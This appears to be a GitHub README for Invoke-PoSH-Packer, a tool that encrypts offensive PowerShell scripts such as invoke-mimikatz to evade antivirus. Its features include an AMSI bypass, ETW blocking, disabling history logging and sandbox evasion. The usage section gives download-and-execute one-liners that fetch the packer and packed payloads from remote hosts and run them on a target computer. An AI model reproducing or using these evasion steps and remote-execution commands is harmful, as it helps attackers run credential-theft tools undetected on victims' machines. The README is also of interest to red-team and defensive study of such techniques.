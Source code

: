 ### Invoke-PoSH-Packer.ps1
--------------------------------------
'Invoke-PoSH-Packer' allows to pack and encrypt offensive PowerShell scripts in order to bypass AV solutions such as Windows Defender.

#### FEATURES
  - AES encryption and GZip/Deflate compression (based on 'Xencrypt')
  - AMSI bypass (pseudo random)
  - Blocking Event Tracing for Windows (ETW)
  - Disabling PowerShell history logging
  - Basic sandbox evasion techniques (optional)
    - stop/exit if the PowerShell script is not run on a domain-joined Windows computer 
    - stop/exit if the PowerShell session is being debugged (detection based on "Test-Path Variable:PSDebugContext")
    - wait for 60 seconds before execution
  
#### USAGE
  - STEP 1. Generate a packed & encrypted version of a PowerShell script (e.g. invoke-mimikatz.ps1, invoke-rubeus.ps1) stored locally or on a remote web server
```
[*] First load the packer
    PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Jean-Francois-C/Windows-Penetration-Testing/master/Defense%20evasion%20(examples)/Invoke-PoSH-Packer/Invoke-PoSH-Packer.ps1');

[*] Then "pack/obfuscate" a PowerShell script stored locally (with or without the sandbox checks enabled)
    PS C:\> Invoke-PoSH-Packer -FilePath C:\path\script-to-pack.ps1 -OutFile C:\path\Packed-script.ps1 
    --- or ---
    PS C:\> Invoke-PoSH-Packer -FilePath C:\path\script-to-pack.ps1 -OutFile C:\path\Packed-script.ps1 -sandbox

[*] Or "pack/obfuscate" a PowerShell script stored on a remote web server (with or without the sandbox checks enabled)
    PS C:\> Invoke-PoSH-Packer -FileUrl https://URL/script-to-pack.ps1 -OutFile C:\path\Packed-script.ps1  
    --- or ---
    PS C:\> Invoke-PoSH-Packer -FileUrl https://URL/script-to-pack.ps1 -OutFile C:\path\Packed-script.ps1 -sandbox
```
#### 
  - STEP 2. Download & execute the packed & encrypted PowerShell script on a target Windows computer
```
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://URL/Packed-script.ps1'); Invoke-method-of-your-original-script

--- or (not recommended) ---
PS C:\> WGET -URI https://URL/Packed-script.ps1 -OutFile C:\temp\Packed-script.ps1
PS C:\> Import-Module C:\temp\Packed-script.ps1
PS C:\> Invoke-method-of-your-original-script
``` 

#### LICENSE
  - GNU General Public License v3.0
